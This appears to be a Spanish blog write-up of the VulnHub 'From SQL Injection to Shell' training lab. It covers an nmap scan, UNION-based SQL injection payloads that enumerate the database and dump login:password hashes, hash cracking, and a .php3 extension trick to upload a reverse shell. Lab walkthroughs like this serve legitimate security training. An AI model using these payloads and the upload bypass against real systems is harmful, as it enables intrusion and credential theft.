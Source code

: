 ```yaml
---
title: From SQl Injecion to Shell
published: true
---
```


---

[From Sql Injection to Shell - lab](@https://www.vulnhub.com/entry/pentester-lab-from-sql-injection-to-shell,80/)

## Intrusion

Escaneo con Nmap para descubrir puertos abiertos en la máquina.

```bash
nmap 192.168.1.29
Nmap scan report for 192.168.1.29
Host is up (0.0011s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

* 22/tcp open ssh OpenSSH 5.5p1 Debian 6+squeeze2 (protocol 2.0)
* 80/tcp open http Apache httpd 2.2.16 ((Debian))

> El puerto 22 es vulnerable a user enumeration pero, obviamente no es la idea del laboratorio, por lo que seguimos.

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled.png)

La web es sencilla y no tiene mucho contenido. 

| Home	| Página principal y muestra la ultima foto que se publico |
| test	| Muestra la foto “ruby” y “cthulhu” |
| ruxcon| Muestra la foto “hacker” |
| 2010	| Sin contenido |
| All pictures	| Muestra todas las fotos |
| Admin	| Panel de autenticación |

> Si en el panel de autenticación ponemos ‘ad’, se muestran algunas opciones. No estoy seguro si esto es a propósito para despistar, pero la SQLi no se da a través de este panel.

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled1.png)

Tanto “test” como “ruxcon” y “2010” tienen un parámetro en la URL que filtra por ID.

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled2.png)

En este caso, comienzo probando cosas en “test”, que es `id=1`. Si comenzamos a probar cosas en el id, como una comilla simple, nos devuelve un error de SQL y podemos ver el error en la respuesta.

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled3.png)

La descripción de la máquina ya nos da una idea de que se trata de una inyección SQL, así que con un `order by 10 -- -` comenzamos a tratar de adivinar el número de columnas que nos devuelve la consulta. 

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled4.png)

Dice “_Unknown_ _column_ ‘10’ _in_ _‘order_ _clause’_” esto es buena señal para seguir probando hasta que coincida con el número de columnas y que la respuesta ya no dé error.

Seguí probando hasta llegar al 4 y la respuesta ya no dio error, por lo que pudimos determinar el número de columnas y ahora con un “union select”, podemos comenzar a combinar datos de otras tablas.

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled5.png)

Al aplicar el “UNION” attack, podemos ver el número 2 representado en la web, por lo que en ese campo podríamos empezar a sacar información. Podemos probar ver el usuario con `union select 1,user(),3,4-- -` , saber la versión de la base de datos `union select 1,version(),3,4-- -` o saber la base de datos en uso `union select 1,database(),3,4-- -`.

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled6.png)

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled7.png)

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled8.png)

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled9.png)

Enumeramos las bases de datos existentes.

```sql
1 union select 1,group_concat(schema_name),3,4 from information_schema.schemata-- -
```

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled10.png)

Como habíamos visto antes, existen “photoblog” e “information_schema”.

Enumeramos las tablas existentes en la base de datos “photoblog”.

```sql
1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema="photoblog"-- -
```

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled11.png)

Vamos a ver las columnas de la tabla “users”.

```sql
1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema="photoblog" and table_name="users"-- -
```

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled12.png)

Sabiendo los nombres de las columnas podríamos extraer toda la información con la siguiente consulta.

```sql
1 union select 1,group_concat(login,':',password),3,4 from photoblog.users-- -
```

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled13.png)

Pasamos el hash por CrackStation y obtenemos la contraseña del administrador.

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled14.png)

Ingresamos y tenemos un panel para agregar o quitar fotos. 

La idea ahora es poder ejecutar comandos en la máquina. 

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled15.png)

Si intentamos subir una reverse shell, sale un mensaje que no admite archivos PHP.

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled16.png)

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled17.png)

Probando distintas extensiones como “_php-reverse-shell.**php2**_" o “_php-reverse-shell.**php.jpg**_" ,no funcionaban hasta que probé _**.php3**_ y sí se ejecutó el código, dándome una shell, y a partir de ahí ya podía ejecutar comandos en el sistema.

![](https://eidd3.github.io/assets/img/FromSQLInjectiontoShell/Untitled18.png)




